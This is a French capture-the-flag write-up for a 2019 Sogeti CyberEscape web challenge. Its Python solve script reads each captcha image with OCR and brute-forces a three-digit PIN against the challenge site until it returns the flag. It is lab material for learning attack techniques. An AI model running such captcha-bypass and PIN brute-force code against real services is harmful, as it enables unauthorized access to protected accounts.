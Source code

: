 ```yaml
---
title: "Finals Web Captcha"
subtitle: "Challenge tiré du Cyberescape de la Sogeti"
author: "zTeeed"
team: "HackademINT"
ctf: "SogetiCyberEscape"
annee: "2019"

---
```


# L'énoncé

![](/writeup-scripts/2018-2019/SogetiCyberEscape/finals/web/captcha/capture.png)

# Solution

[solve.py](/writeup-scripts/2018-2019/SogetiCyberEscape/finals/web/captcha/solve.py)

```python
#!/usr/bin/python3

import base64, os, re, requests, pwn


def compute_digit(s, p, p2, digit):
    html = s.get(url).content
    pattern = b'<img class="img-thumbnail" src="data:image/jpg;base64,(.*?)"'
    b64_img = re.findall(pattern, html)
    file = open('test.jpg', 'wb')
    file.write(base64.b64decode(b64_img[0]))
    file.close()
    os.system('gocr -i ./test.jpg > res.txt')
    f = open('./res.txt')
    res = f.read()
    f.close()
    pin = "0"*(3-len(str(digit))) + str(digit)
    data = dict(pin=pin, answer=str(res)[:-1])
    p2.status(str(data))
    rep = s.post(url, data=data)
    p.status(rep.content.decode())
    return rep


def compute(s, p, p2):
    digit = 0
    while digit < 1000:
        rep = compute_digit(s, p, p2, digit)
        if rep.content == b'You might want to see the captcha before saying what it is !':
            pass
        elif rep.content == b'Invalid pin code':
            digit += 1
        elif rep.content == b'Bad captcha answer':
            pass
        else:
            p.success(rep.content.decode())
            return rep.content
    return


def solve(s):
    with pwn.log.progress('reponse') as p:
        with pwn.log.progress('payload') as p2:
            flag = compute(s, p, p2)


if __name__ == '__main__':
    url = 'https://shadowpex.shadow-league.org/'
    s = requests.session()
    flag = solve(s)
```

<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/HlE-5_VvbjY" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen=""></iframe>
